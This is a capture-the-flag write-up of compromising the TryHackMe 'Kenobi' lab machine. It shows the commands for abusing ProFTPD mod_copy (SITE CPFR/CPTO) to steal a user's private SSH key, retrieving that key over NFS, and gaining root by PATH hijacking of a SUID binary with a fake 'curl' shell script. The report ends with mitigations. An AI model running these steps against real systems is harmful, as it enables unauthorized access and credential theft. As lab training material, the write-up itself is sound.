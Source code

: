 - Author: Pedro Daniel Gonçalves Antunes
- Date: 10 July 2025
- Target: 10.10.19.34
## **1. Introduction**

This report documents the full process of compromising the "Kenobi" machine from the TryHackMe platform. The methodology involved initial network enumeration to identify open services, exploitation of a vulnerable network share and FTP service to gain an initial foothold, and privilege escalation to root by exploiting a misconfigured SUID binary on the system.
## **2. Initial Enumeration**
The first step was to perform a full port scan using `nmap` to identify all open services on the target machine. The `-sV` flag was used to probe for service versions.
```bash
nmap -sV 10.10.19.34 
```
![Resultado do Nmap](./images/01-nmap-scan.png)

The scan revealed **7 open ports**. The most promising services for initial enumeration were:
- **Port 21:** FTP (ProFTPD 1.3.5)
- **Port 111:** RPCbind
- **Port 445:** SMB (Samba smbd 4.3.11-Ubuntu)
## **3. Gaining an Initial Foothold**
Given the open SMB port, I proceeded to enumerate it for any accessible network shares using `nmap`'s scripting engine (NSE).
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.19.34
```
The script discovered **3 shares**, including one of particular interest named `anonymous`. I connected to this share using `smbclient`, providing no password.

![Smbclient shares](./images/02-smblcient-shares.png)
```bash
smbclient //10.10.19.34/anonymous
```
Inside the share, I found a file named `log.txt`. I downloaded it for further analysis using the `get` command within the `smbclient` prompt.
![Inside Share](./images/03-inside-share.png)
![Get File](./images/04-get-file.png)
![Inside file](./images/05-inside-file.png)

This log file contained two critical pieces of information:
1. The location of a private SSH key for a user named **Kenobi** (`/home/kenobi/.ssh/id_rsa`).
2. Details about the ProFTPD server software.
### 3.2. Exploiting ProFTPD

The `log.txt` file confirmed that ProFTPD was running on **port 21**. My initial `nmap` scan had already identified the version as **1.3.5**. A quick search with `searchsploit` revealed that this specific version is vulnerable.
![FTP Version](./images/06-ftp-version.png)
``` bash
searchsploit proftpd 1.3.5
```
![Searchsploit ](./images/07-searchsploit.png)
The search returned **3 main exploits**. The most relevant one is related to the `mod_copy` module, which allows an unauthenticated user to copy files on the server using the `SITE CPFR` (Copy From) and `SITE CPTO` (Copy To) commands.

The plan was clear: use this vulnerability to copy Kenobi's private SSH key from its protected location (`/home/kenobi/.ssh/id_rsa`) to a world-accessible directory. My earlier enumeration had shown that the `/var` directory was mountable via NFS (Network File System). Therefore, `/var/tmp` would be a perfect destination.

Using `netcat` to connect to the FTP port, I issued the commands to copy the key:
```bash
nc 10.10.19.34 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
![CPRF/CPTO](./images/08-CPFR-CPTO.png)
### 3.3. Accessing the Machine
With the private key now in `/var/tmp`, I mounted the NFS share to my local machine to retrieve it.
```bash
#Create a local directory for the mount
mkdir /mnt/kenobiNFS

#Mount the remote share
sudo mount 10.10.19.34:/var /mnt/kenobiNFS

#Copy the key to our current directory
cp /mnt/kenobiNFS/tmp/id_rsa .
```
![Mkdir](./images/09-mkdir.png)
![Mount](./images/10-mount.png)
![View mount](./images/11-view-mount.png)
![Cp id_rsa](./images/12-cp-id_rsa.png)

Finally, I set the correct permissions for the private key and used it to log in as the `kenobi` user via SSH.
```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.19.34
```
![Login SSH](./images/13-login-ssh.png)

Success! I now had a user shell on the machine. The user flag was retrieved from `/home/kenobi/user.txt`.

**User Flag:** `d0b0f3f53b6caa532a83915e19224899`
## 4. Privilege Escalation to Root
The final step was to escalate privileges from `kenobi` to `root`. I started by searching for files with the SUID bit set, as these files run with the permissions of their owner (often root), which can be a common vector for privilege escalation.
```bash
find / -perm -u=s -type f 2>/dev/null
```
![Perms](./images/14-perms.png)

The list of SUID files showed a very unusual binary: `/usr/bin/menu`. This is not a standard Linux binary and immediately became my primary target.

Executing the binary revealed it was a simple command-line menu with **3 options**.

I used the `strings` command to look for readable text within the binary, which can reveal its functionality.

The `strings` output showed that the binary was calling other system commands like `curl` and `uname` without specifying their full path (e.g., `/bin/curl`). This is a classic **Path Hijacking** vulnerability. Since the binary runs as root, if I can make it execute my own malicious `curl` file instead of the real one, my file will also run as root.

I executed the following steps to exploit this:

1. Navigate to a world-writable directory like `/tmp`.
2. Create a new file named `curl`.
3. Write `#!/bin/bash\n/bin/sh` into the file, which tells the system to execute a shell.
4. Make the file executable with `chmod +x curl`.
5. Prepend the `/tmp` directory to the system's `PATH` variable. This forces the system to look in `/tmp` for binaries first.
6. Run the `/usr/bin/menu` binary and select an option that calls `curl`.

![Create curl](./images/15-create-curl.png)

![Enter menu](./images/16-enter-menu.png)

![Root permission](./images/17-root-permision.png)

We select option 1 on the menu, and this successfully spawned a shell with `root` privileges. The root flag was retrieved from `/root/root.txt`.

![Root Flag](./images/18-root-flag.png)

**Root Flag:** `177b3cd8562289f37382721c28381f02`
## **5. Conclusion & Mitigations**

The Kenobi machine was compromised by chaining multiple vulnerabilities.

- **Initial Access:** An outdated version of ProFTPD (1.3.5) allowed an unauthenticated attacker to copy files on the system, leading to the theft of a user's private SSH key.
- **Privilege Escalation:** A custom-developed SUID binary was vulnerable to Path Hijacking, allowing a low-privilege user to gain a root shell.

**Mitigation steps should include:**

1. **Patching Software:** Update ProFTPD to a version that is not vulnerable to the `mod_copy` exploit.
2. **Principle of Least Privilege:** Avoid using the SUID bit on custom applications. If necessary, ensure the application code specifies the full path for any system commands it executes to prevent Path Hijacking.
3. **Network Security:** Restrict access to network shares like SMB and NFS. Anonymous and public shares should be disabled unless absolutely essential.

